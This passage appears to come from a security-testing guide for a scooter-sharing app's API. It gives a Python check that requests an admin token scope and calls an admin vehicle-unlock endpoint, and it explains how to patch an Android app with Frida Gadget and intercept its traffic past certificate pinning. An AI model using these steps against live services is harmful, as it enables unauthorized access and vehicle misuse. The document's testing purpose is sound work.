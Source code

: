 ### 3. Test Scope Escalation
```python
from mayn_drive_api import MaynDriveAPI

# Try admin scope
api = MaynDriveAPI()
success, data = api.login("your@email.com", "password", scope="admin")

if success:
    print("🚨 VULNERABLE! Admin scope accepted!")
    print(f"Token: {api.access_token}")
    
    # Try admin endpoint
    success, result = api.unlock_vehicle_admin("TEST001", 0.0, 0.0)
    if success or result.get('status_code') == 404:
        print("🚨 CRITICAL: Admin endpoint accessible!")
else:
    print("✅ Secure: Admin scope rejected")
```

### 4. Re-run Exploit Demo
```bash
# Now the exploit demo should work!
python exploit_demo_webapp.py

# Or with Docker
docker-compose up --build

# Visit: http://localhost:5000
```

---

## 🛠️ Troubleshooting

### App crashes on launch
- **Cause:** Anti-tampering detection
- **Fix:** Add `android:debuggable="true"` to `<application>` in AndroidManifest.xml

### Gadget not loading
- **Cause:** Wrong architecture
- **Fix:** Verify with `adb shell getprop ro.product.cpu.abi` (should be `arm64-v8a`)

### Script not running
- **Cause:** Frida not connected
- **Fix:** Check `frida-ps -U` to see if Gadget is running

### No traffic in proxy
- **Cause:** Certificate not trusted or proxy not configured
- **Fix:** 
  - Verify proxy settings on phone
  - Install mitmproxy certificate from `http://mitm.it`
  - Check if Frida unpinning script is active
